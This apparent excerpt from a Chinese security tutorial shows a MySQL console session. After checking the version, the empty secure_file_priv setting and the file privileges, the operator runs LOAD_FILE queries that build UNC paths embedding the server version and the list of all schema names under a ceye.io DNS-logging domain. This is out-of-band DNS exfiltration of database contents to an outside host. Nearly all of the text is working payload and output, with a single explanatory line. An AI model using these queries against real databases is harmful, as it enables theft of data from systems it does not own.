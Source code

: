 ```
MySQL root@localhost:(none)> select @@version;
+-----------+
| @@version |
+-----------+
| 5.5.44    |
+-----------+
1 row in set
Time: 0.016s
MySQL root@localhost:(none)> show variables like "%file_priv";
+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+
1 row in set
Time: 0.000s
MySQL root@localhost:(none)> select file_priv,host,user from mysql.user;
+-----------+-----------+------+
| file_priv | host      | user |
+-----------+-----------+------+
| Y         | localhost | root |
| Y         | 127.0.0.1 | root |
| Y         | ::1       | root |
| N         | localhost |      |
+-----------+-----------+------+
4 rows in set
Time: 0.000s
```

>注意`.ckr3de.ceye.io`最前面有一个`.`

```
MySQL root@localhost:(none)> SELECT LOAD_FILE(concat('\\\\',@@version,'.ckr3de.ceye.io\\abc'));
+------------------------------------------------------------+
| LOAD_FILE(concat('\\\\',@@version,'.ckr3de.ceye.io\\abc')) |
+------------------------------------------------------------+
| <null>                                                     |
+------------------------------------------------------------+
1 row in set
Time: 22.625s
MySQL root@localhost:(none)> SELECT LOAD_FILE(concat('\\\\',(select group_concat(schema_name SEPARATOR '.') from information_schema.schemata),'.ckr3de.ceye.io\\abc'));
+------------------------------------------------------------------------------------------------------------------------------------+
| LOAD_FILE(concat('\\\\',(select group_concat(schema_name SEPARATOR '.') from information_schema.schemata),'.ckr3de.ceye.io\\abc')) |
+------------------------------------------------------------------------------------------------------------------------------------+
| <null>                                                                                                                             |
+------------------------------------------------------------------------------------------------------------------------------------+
1 row in set
Time: 22.297s
```
